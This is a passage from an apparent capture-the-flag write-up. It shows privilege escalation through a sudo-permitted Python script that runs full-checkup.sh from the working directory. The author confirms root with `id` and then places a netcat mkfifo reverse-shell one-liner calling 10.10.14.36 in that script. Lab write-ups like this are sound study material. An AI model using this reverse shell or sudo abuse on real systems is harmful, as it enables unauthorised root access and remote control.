 So basically, the `full-checkup` option runs all commands inside a bash script called `full-checkup.sh`, so I'll check the functionality.

- First, I'll create a bash script (inside `/tmp`) that executes the `id` command:

```bash
#!/bin/bash
id
```

- Give permissions to it: `chmod +x full-checkup.sh`

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
uid=0(root) gid=0(root) groups=0(root)

[+] Done!
```

- Once here, I can put inside a reverse shell inside it to get root access:

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 777 >/tmp/f
```

![](Pasted%20image%2020250518160755.png)

### Root flag

![](Pasted%20image%2020250518160812.png)

==Machine pwned!==









